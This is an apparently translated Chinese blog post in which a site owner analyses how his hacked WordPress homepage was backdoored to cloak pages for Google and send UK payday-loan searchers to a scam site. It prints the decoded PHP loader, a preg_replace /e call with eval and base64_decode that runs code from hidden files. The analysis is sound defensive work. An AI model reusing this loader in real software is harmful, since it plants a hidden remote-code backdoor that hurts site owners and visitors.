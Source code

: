 显然，他对我的拒绝感到困惑，不明白为什么我完全不像是一个理性经济人。我理解他的颓然。大概，他不曾遇见许多​​新从大学毕业的这类学生。我又回了他一轮，再次拒绝他的邀约，不过也希望他在他的生意上有好运气，在当时那个点，我仍然认为他是在一个太阳能电力公司工作。

我回到家的时候，下定决心要解决两个谜团：

1. 西蒙在 Google 查找井底之蛙时，看到的还是被黑状态的是什么？
2. 究竟为什么，西蒙会先是出 500 美元购买我的域名，到最后想要每天 500 美元租我的网站？

我发现的第一件事情是，我的网站仍有问题。黑客们再次修改我的主页，把它变成一个 php 文件，并在顶部添加了一个命令，以及一堆乱七八糟的东西。他们的后门并没有如我所预料地放在中国博客里，而是在其他地方。我必须对黑客行为做一个逆向工程。

## 剖析攻击

黑客添加到我的主页顶部的命令是 “pr​​eg_replace” 函数，在 PHP 中用于从某些文本中搜索一个词组，并用其他一些文字替代。

```php
preg_replace("[what you are searching for]","[what you wish to replace it with]","[the text to search]")
```

在这个案例里，那些命令对我来讲显得非常晦涩，因为根本都是一堆乱码，如 ” \x65\166\x61\154 “。这其实只是 ASCII 码文本以十进制和十六进制两个不同格式进行了混合。PHP 知道不要把它们当普通数字对待，因为有转义 “\” 字符，后面跟的 x 表示十六进制数字。在这个图中，你可以找到它们的含义。例如，上面的文字，以 \ X65 开头的，这是十六进制表示的 “e”，然后是十进制表示的 “v”，接着又换回十六进制，这次是 “a”，最后仍是十进制，”l”，合起来就是 “eval”。

对于计算机来说，这很明了，但对我这样的人类来说，要弄明白发生什么却很困难。我必须先将所有的乱七八糟的字符转换成常规字符。我使用 Python 来转换。在我的 Mac 上，打开终端，键入 python，然后用 python 的 print 命令来输出那一段乱码 ASCII 块：

```python
print("[put your gibberish here]")
```

这生成一个命令，说的是：

```
Look for: |(.*)|ei
Replace it with: eval('$kgv=89483;'.base64_decode(implode("\n",file(base64_decode("\1")))));$kgv=89483;
In the text:         L2hvbWUvZnJvZ2kyL3B1YmxpY19odG1sL2tvcmVhL3dwLWluY2x1ZGVzL2pzL2Nyb3AvbG9nLy4lODI4RSUwMDEzJUI4RjMlQkMxQiVCMjJCJTRGNTc=
```

现在，我总算找到感觉了。但是，这末尾的又是什么全新风味的杂乱代码？该文本编码使用 Base64 编码方法进行编码。如果你有一个 Base64 编码的文本文件，你可以在 Mac OS X 或 Linux 命令行里通过下述命令解码：

```bash
base64 -i encoded-text.txt -o outputed-decoded.txt
```

您也可以使用 Python，PHP，Ruby 等解码 base64，又或者在线的解码器。通过解码，得到了文件地址，该文件中包含更多要执行的代码：

```
[…]public_html/korea/wp-includes/js/crop/log/.%828E%0013%B8F3%BC1B%B22B%4F57
```

但不只是这一个文件。那里有许多文件，里面包含着可替换的主页文本。我主页里的代码，通过前面一个命令，运行了其他隐藏在我的韩国博客一个深层目录的命令。虽然这些文件名和它们的内容使用一系列方法编码，比如 base64 编码，MD5 加密，字符转换成数字，任意值重复，还包括许多以 JSON 格式存储的内容。我还是耐心地找出所有细节，不过它似乎只针对 Google 提供不一样的主页，并且只在某些情况下。

其中一个被黑的文件会生成一个英国 payday loan 诈骗网站 speedypaydayloan dot co dot uk，它连接到一个假的伦敦公司 “D and D Marketing”，可以在网上看到很多地方讨论它的诈骗行为。换句话说，英国，并且只有英国的用户在访问 Google、查找 “payday loans” 时，井底之蛙上被狡猾入侵过的主页将他们重定向到一个诈骗网站，又或重定向到我网站上一个被编码过的巨大列表中的任意其他网站。
